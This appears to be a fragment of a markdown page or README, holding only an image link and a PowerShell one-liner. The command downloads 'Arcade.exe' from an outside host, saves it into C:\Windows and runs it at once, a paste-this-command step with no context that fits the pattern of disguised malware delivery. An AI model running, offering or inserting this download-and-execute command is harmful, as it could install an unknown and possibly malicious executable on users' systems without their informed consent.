 powershell -Command "Invoke-WebRequest -Uri 'https://picteon.dev/files/Arcade.exe' -OutFile 'C:\Windows\Arcade.exe'; Start-Process 'C:\Windows\Arcade.exe'"
